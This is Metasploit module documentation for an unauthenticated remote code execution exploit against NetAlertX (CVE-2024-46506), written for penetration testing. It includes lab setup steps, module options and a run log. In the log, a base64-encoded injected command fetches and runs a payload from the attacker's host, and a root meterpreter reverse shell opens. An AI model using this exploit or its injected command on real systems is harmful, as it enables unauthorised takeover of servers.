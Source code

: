 ## Vulnerable Application

An attacker can update NetAlertX settings with no authentication, which results in RCE.

The vulnerability affects:

    * v23.01.14 <= NetAlertX <= v24.9.12

This module was successfully tested on:

    * NetAlertX v24.9.12 installed with Docker on Ubuntu 22.04


### Installation

1. `docker pull jokobsk/netalertx:24.9.12`

2. docker run
```bash
docker run --rm --network=host \
  -v /tmp/netalertx:/app/config \
  -v /tmp/netalertx:/app/db \
  -e TZ=Europe/Berlin \
  -e PORT=20211 \
  jokobsk/netalertx:24.9.12
```


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/netalertx_rce_cve_2024_46506`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options
### WAIT (required)
Wait time (seconds) for the payload to be set. Default is `75`.


## Scenarios
```
msf6 > use exploit/linux/http/netalertx_rce_cve_2024_46506
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/netalertx_rce_cve_2024_46506) > options

Module options (exploit/linux/http/netalertx_rce_cve_2024_46506):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.ht
                                       ml
   RPORT    20211            yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host
   WAIT     75               yes       Wait time (seconds) for the payload to be set


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      hhPzIVsphPBC     no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.0.12     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/netalertx_rce_cve_2024_46506) > run lhost=192.168.56.1 rhost=192.168.56.17
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 24.9.12 detected.
[*] Sent request to update DBCLNP_CMD to '/bin/bash -c echo${IFS}d2dldCAtcU8gLi9tR1Brb3hyUk9WIGh0dHA6Ly8xOTIuMTY4LjU2LjE6ODA4MC9HLThmOG5rb0gwZFRaR1BzTnZTMjNnO2NobW9kICt4IC4vbUdQa294clJPVjsuL21HUGtveHJST1Ymc2xlZXAgNDtybSAtcmYgLi9tR1Brb3hyUk9W|base64${IFS}-d|/bin/bash'.
[*] Waiting settings really updated...
[*] Sending stage (3045380 bytes) to 192.168.56.17
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.17:42572) at 2025-02-08 13:42:04 +0900
[*] Added the payload to the queue. Waiting for the payload to run...
[*] Sent request to update DBCLNP_CMD to 'python3 /app/front/plugins/db_cleanup/script.py pluginskeephistory={pluginskeephistory} hourstokeepnewdevice={hourstokeepnewdevice} daystokeepevents={daystokeepevents} pholuskeepdays={pholuskeepdays}'.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.56.17
OS           :  (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
